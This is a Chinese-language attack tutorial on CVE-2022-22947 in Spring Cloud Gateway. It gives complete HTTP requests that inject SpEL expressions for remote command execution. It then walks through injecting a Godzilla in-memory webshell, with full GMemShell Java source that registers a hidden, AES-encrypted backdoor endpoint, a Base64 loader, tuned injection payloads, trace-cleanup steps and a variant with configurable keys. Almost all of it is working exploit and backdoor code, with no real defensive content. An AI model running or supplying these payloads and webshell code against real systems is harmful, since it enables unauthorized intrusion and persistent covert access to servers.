# Spring Cloud Gateway 内存马注入

## 漏洞简介

Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的 API 网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式
以下版本的 Spring Cloud Gateway 存在 SpEL 表达式注入漏洞 CVE-2022-22947，可导致未授权远程命令执行漏洞

漏洞信息：CVE-2022-22947

利用版本：
- Spring Cloud Gateway 3.1.x < 3.1.1
- Spring Cloud Gateway 3.0.x < 3.0.7
- Spring Cloud Gateway 其他已不再更新的版本

## 漏洞利用

### 漏洞复现

发送恶意请求，创建路由及编写 SpEL 表达式
- `id`字段指定新路由名称，必须唯一
- `filters`字段给这条路由指定若干个过滤器，过滤器用于对请求和响应进行修改
   - `name`字段指定要添加的过滤器，这里添加了一个`AddResponseHeader` 过滤器，用于`gateway`给客户端返回响应之前添加一个响应头
   - `args.name`字段指定要添加的响应头
   - `args.value`字段指定响应头的值。这里的值是要执行的 SpEL 表达式，用于执行 whoami 命令。注意需要将命令输出结尾的换行符去掉，否则过滤器执行时会抛出异常说「响应头的值不能以 \r 或 \n 结尾」
   - `uri`字段指定将客户端请求转发到`http://example.com`

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```


刷新路由，此时将触发并执行 SpEL 表达式。需要注意的是，请求体中需要空一行，否则发送后会一直`waitting`，下同
```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


查看执行结果

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


最后可以删除所添加的路由，进行痕迹清理

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```


最后刷新下路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


### 漏洞修复


## 哥斯拉内存马

### 环境

创建Maven项目，引入依赖

```xml
<dependencies>
  <dependency>
    <groupId>org.springframework.cloud</groupId>
    <artifactId>spring-cloud-starter-gateway</artifactId>
    <version>3.0.6</version>
  </dependency>
</dependencies>
```

### 构造
> 这里使用 [GMemShell.java](https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell/blob/main/GMemShell.java) 哥斯拉内存马，具体分析文章参考：[CVE-2022-22947 注入哥斯拉内存马](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)

构造内存马，设置变量`pass`及`key`，另外`doInject`方法传入的`path`参数为木马路径

此处`key`是明文`testpwd`的**MD5值前16位**

```shell
$ echo -n "testpwd" | md5 | cut -c 1-16

```


```java
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.reactive.result.method.RequestMappingInfo;
import org.springframework.web.server.ServerWebExchange;
import reactor.core.publisher.Mono;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

public class GMemShell {
  public static Map<String, Object> store = new HashMap<>();
  public static String pass = "test", md5, key = "342df5b036b2f281";
  
  public static String doInject(Object obj, String path) {
    String msg;
    try {
      md5 = md5(pass + key);
      Method registerHandlerMethod = obj.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
      registerHandlerMethod.setAccessible(true);
      Method executeCommand = GMemShell.class.getDeclaredMethod("cmd", ServerWebExchange.class);
      RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).build();
      registerHandlerMethod.invoke(obj, new GMemShell(), executeCommand, requestMappingInfo);
      msg = "ok";
    } catch (Exception e) {
      e.printStackTrace();
      msg = "error";
    }
    return msg;
  }
  
  
  private static Class defineClass(byte[] classbytes) throws Exception {
    URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
    Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    method.setAccessible(true);
    return (Class) method.invoke(urlClassLoader, classbytes, 0, classbytes.length);
  }
  
  public byte[] x(byte[] s, boolean m) {
    try {
      javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
      c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(key.getBytes(), "AES"));
      return c.doFinal(s);
    } catch (Exception e) {
      return null;
    }
  }
  
  public static String md5(String s) {
    String ret = null;
    try {
      java.security.MessageDigest m;
      m = java.security.MessageDigest.getInstance("MD5");
      m.update(s.getBytes(), 0, s.length());
      ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {
    }
    return ret;
  }
  
  public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
      base64 = Class.forName("java.util.Base64");
      Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
      value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
    } catch (Exception e) {
      try {
        base64 = Class.forName("sun.misc.BASE64Encoder");
        Object Encoder = base64.newInstance();
        value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
      } catch (Exception e2) {
      }
    }
    return value;
  }
  
  public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
      base64 = Class.forName("java.util.Base64");
      Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
      value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
    } catch (Exception e) {
      try {
        base64 = Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
        value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
      } catch (Exception e2) {
      }
    }
    return value;
  }
  
  @PostMapping("/cmd")
  public synchronized ResponseEntity cmd(
    ServerWebExchange pdata) {
    try {
      Object bufferStream = pdata.getFormData().flatMap(c -> {
        StringBuilder result = new StringBuilder();
        try {
          String id = c.getFirst(pass);
          byte[] data = x(base64Decode(id), false);
          if (store.get("payload") == null) {
            store.put("payload", defineClass(data));
          } else {
            store.put("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) store.get("payload")).newInstance();
            f.equals(arrOut);
            f.equals(data);
            result.append(md5.substring(0, 16));
            f.toString();
            result.append(base64Encode(x(arrOut.toByteArray(), true)));
            result.append(md5.substring(16));
          }
        } catch (Exception ex) {
          result.append(ex.getMessage());
        }
        return Mono.just(result.toString());
      });
      return new ResponseEntity(bufferStream, HttpStatus.OK);
    } catch (Exception ex) {
      return new ResponseEntity(ex.getMessage(), HttpStatus.OK);
    }
  }
}
```

最后使用 Maven 进行编译，得到`GMemShell.class`

```bash
$ mvn compile
```


编写加载器，加载该 Class 文件并转换为 Base64 编码

```java
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.util.Base64;

public class LoaderClass {
  public static byte[] load(String path) {
    FileInputStream fis = null;
    ByteArrayOutputStream baos = null;
    
    try {
      fis = new FileInputStream(path);
      baos = new ByteArrayOutputStream();
      byte[] buffer = new byte[1024];
      int len = -1;
      while ((len = fis.read(buffer)) != -1) {
        baos.write(buffer, 0, len);
        baos.flush();
      }
      return baos.toByteArray();
    }
    catch (Exception e) {
      e.printStackTrace();
    }
    finally {
      if (fis != null) {
        try { fis.close(); }
        catch (Exception e) { e.printStackTrace(); }
      }
      if (baos != null) {
        try { baos.close(); }
        catch (Exception e) { e.printStackTrace(); }
      }
    }
    return null;
  }
  
  public static void main(String[] args) {
    byte[] code = LoaderClass.load("target/classes/GMemShell.class");
    String temp = Base64.getEncoder().encodeToString(code);
    System.out.println(temp);
  }
}

```


### 注入1
> 此处使用了 c0ny1 师傅对默认 Payload 进行优化后的 [高可用Payload](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/#0x01-%E9%AB%98%E5%8F%AF%E7%94%A8Payload)

这里需要向这个 SpEL 表达式传入前面编码后的 Base64 字符串以及访问路由，如`/gmem`
```java
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>')}

```

创建路由

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 10770

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '/gmem')}"
    }
  }],
  "uri": "http://example.com"
}
```


刷新路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


使用浏览器访问发现路由已经打进去了



使用哥斯拉进行连接
- URL 为 Payload 中注入的`path`
- 密码为前面设置的`pass`，密钥为`key`的明文



### 注入2
> 魔改添加自定义`pass`和`key`功能，这样只需编译一次 Class 并生成对应的 Base64 编码，每次使用时只需传入不同的参数即可，而不用每次都编译

因为在前面`GMemShell.java`这个文件中，`pass/key`是全局静态变量，所以不能像`path`变量这样直接向`doInject`方法传参，所以一开始的想法是打算从 SpEL 表达式入手
```http
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>')}
```
从`org.springframework.cglib.core.ReflectUtils`这个类可以看到，上面的表达式中向这个类中的`defineClass`方法传入了3个参数：`className`类名、`byte[]`字节数组、`loader`类加载器，没有找到可以利用的点



后来想到其实可以先定义全局变量`pass`和`key`，然后通过向`doInject`方法中传递密码`passKey`和密钥`keyStr`参数并进行覆盖即可~~（前面想得复杂了）~~。另外`keyStr`需要进行 MD5 加密并截取前 16 位，这里加密部分可以直接调用 Spring 中的`DigestUtils`类，所以还需要引入该类。（参考：[Java MD5 算法实现](https://www.jianshu.com/p/1fe26fc3643a)）
```java
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.util.DigestUtils;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.reactive.result.method.RequestMappingInfo;
import org.springframework.web.server.ServerWebExchange;
import reactor.core.publisher.Mono;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

public class GMemShell {
  public static Map<String, Object> store = new HashMap<>();
  
  public static String pass, md5, key;
  
  public static String doInject(Object obj, String path, String passStr, String keyStr) {
    String msg;
    
    pass = passStr;
    key = DigestUtils.md5DigestAsHex(keyStr.getBytes()).substring(0, 16);
    
    try {
      md5 = md5(pass + key);
      Method registerHandlerMethod = obj.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
      registerHandlerMethod.setAccessible(true);
      Method executeCommand = GMemShell.class.getDeclaredMethod("cmd", ServerWebExchange.class);
      RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).build();
      registerHandlerMethod.invoke(obj, new GMemShell(), executeCommand, requestMappingInfo);
      msg = "ok";
    } catch (Exception e) {
      e.printStackTrace();
      msg = "error";
    }
    return msg;
  }
  // ...
}
```

同样地，SpEL 表达式也需要稍微修改下，添加接收密码和密钥参数

```java
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>','<密码>','<密钥>')}
```
